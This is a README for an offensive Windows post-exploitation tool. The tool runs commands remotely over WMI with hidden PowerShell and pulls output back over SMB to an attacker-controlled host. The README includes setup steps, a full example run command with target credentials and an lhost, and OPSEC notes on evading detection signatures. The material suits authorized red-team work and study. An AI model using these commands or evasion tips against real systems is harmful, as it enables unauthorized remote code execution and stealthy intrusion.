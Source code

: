 # WMI-Whisper: Lightweight Post-Exploitation Framework (WMI + PowerShell + SMB)

A clean, minimal remote access toolkit leveraging native Windows features — WMI for code execution and authenticated SMB for output retrieval. Built for red teamers, researchers, and students.

> 🛡️ No dropped binaries, no `cmd.exe`, no noisy services — just pure tradecraft.

---

## ✨ Features
- ✔️ Executes commands remotely via `Win32_Process.Create`
- ✔️ Uses `powershell.exe -WindowStyle Hidden` 
- ✔️ Captures output via authenticated SMB share
- ✔️ Launches its own internal SMB server
- ✔️ No third-party payloads or shellcode
- ✔️ Compatible with modern Windows (10/11)


---

## 🚀 Usage

This section walks you through setting up the environment, installing dependencies, and running **WMIWhisper**.

---
### 🧱 Requirements 

Before running the tool, make sure the following are in place:

- 🐧 **Linux system** (tested on Kali Linux)
- 🐍 **Python 3.8+**
- 📡 Target Windows machine must:
  - Be accessible over the network
  - Allow WMI/DCOM traffic (port 135 + dynamic RPC)
  - Allow outbound SMB (port 445) to your attacker machine
  - Use credentials with **admin or WMI privileges**

---

### ⚙️ Environment Setup (First Time Only)

I highly recommend using a **Python virtual environment** to keep your system clean:

```bash
# 1. Update your system
sudo apt update

# 2. Install Python, pip, and venv
sudo apt install python3 python3-pip python3-venv -y

# 3. Create and activate a virtual environment
python3 -m venv ~/wmienv
source ~/wmienv/bin/activate

```

### 📦 Install Dependencies (Impacket)

```bash
# 4. Clone the Impacket repository
git clone https://github.com/fortra/impacket.git

# 5. Navigate into the Impacket directory
cd impacket

# 6. Install Impacket and all required packages
pip install .
```

### 📂 Confirm impacket-smbserver is Available
Check that the impacket-smbserver script was installed correctly:
```bash 
which impacket-smbserver
```
You should see a valid path (like `/usr/local/bin/impacket-smbserver`). If not, ensure you're inside the virtual environment and that installation completed successfully.

---

### 📥 Clone This Repository

Now that Impacket is installed, clone the WMIWhisper project:

```bash
# Go back to your workspace (outside impacket/)
cd ~
git clone https://github.com/DEKOKSS/WMI-Whisper
cd WMI-Whisper
```

### ▶️ Running the Tool
Inside the cloned project directory:
```bash
python3 whisper.py <TARGET_IP> <USERNAME> <PASSWORD> --domain <DOMAIN_NAME> --lhost <YOUR_KALI_IP>
```
| Arg      | Description                         |
| -------- | ----------------------------------- |
| TARGET_IP| Remote Windows IP                   |
| USERNAME | Admin or WMI-capable user           |
| PASSWORD | Account password                    |
| --domain | Domain (leave blank for local user) |
| --lhost  | Your IP for receiving output (SMB)  |

### 📝 Example
```bash
python3 whisper.py 192.168.0.152 adminuser P@ssw0rd123 --domain pentestlab.local --lhost 192.168.0.186
```
## 📂Output

- Logs are saved in: `/tmp/dropzone/`
- Each command generates: `result_<timestamp>.log`
- Output is pulled directly via SMB

## 🛡️OPSEC Notes

- No `cmd.exe /c` — common alert signature
- `powershell.exe -WindowStyle Hidden` used for execution
- SMB authentication avoids Windows 10/11 guest access blocks
- No on-disk payloads or artifacts

## 📸 DEMO
![GhostWMIC Demo](extra/whisper.gif)

## ✅ Legal & Ethics
This project is intended strictly for educational and authorized testing purposes.
Do not use it against systems you do not own or have explicit permission to test.


- Based on [Impacket](https://github.com/fortra/impacket)

- Built by a cybersecurity researcher and student



















